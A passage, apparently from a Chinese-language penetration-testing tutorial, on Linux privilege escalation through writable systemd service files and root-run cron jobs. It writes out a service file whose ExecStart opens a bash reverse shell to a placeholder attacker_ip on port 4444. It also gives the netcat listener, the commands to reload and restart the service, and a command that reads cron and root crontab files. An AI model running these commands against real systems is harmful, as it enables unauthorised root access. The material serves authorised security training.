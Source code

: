 此命令的输出不会返回目标系统的任何结果。但是，让我们继续并学习如何修改可写的服务文件，如果在渗透测试中找到一个文件的话。如果发现一个可写服务文件，可以修改它来执行反向 shell。

这是修改可写服务文件的示例（将 **attacker_ip** 替换为您的 Kali 系统中的适当值）：

```
 $ echo "[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" > /etc/systemd/system/vulnerable.service
```

在您的 Kali 系统上执行以下命令，以准备接收反向 shell：

```
 $ nc -nlvp 4444
```

然后，重新加载 systemd 管理器配置，如下所示：

```
 $ systemctl daemon-reload
```

重启易受攻击的服务，如下所示：

```
 $ systemctl restart vulnerable.service
```

这样应该会收到来自目标的反向 shell。

现在，您已经学会了如何列举和利用易受攻击的服务，让我们继续深入探讨 **cron 作业**。

Cron 作业是计划任务，在类 Unix 操作系统中会在指定的时间间隔内自动运行。它们由 **cron 守护进程** 管理，后者是一个在后台执行命令的进程，根据预定的时间和日期执行命令。在网络安全中，cron 作业对于自动化常规任务、监控系统和维护安全协议非常有价值。如果配置错误，cron 作业可能会被利用。

以下 Bash 命令用于检查 Linux 系统上的计划任务，特别是识别与 cron 作业和计划任务相关的潜在权限提升机会：

```
 $ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

通过运行此命令，您可以查找系统上所有已配置的计划任务（**cron** 作业，**at** 作业和 **anacron** 作业），排除任何被注释掉的行。

该命令在目标系统上的输出如以下图所示：

![图 11.39 – 检查计划任务命令的输出](img/B22229_11_39.jpg)

图 11.39 – 检查计划任务命令的输出

从图中可以看到，**autoscript.sh** 正在以 **root** 身份运行。

**autoscript.sh** 条目也在本章早些时候被发现，如下所示的 **pspy64** 命令输出：

![图 11.40 – pspy64 命令输出显示 autoscript.sh 作为 root 运行](img/B22229_11_40.jpg)
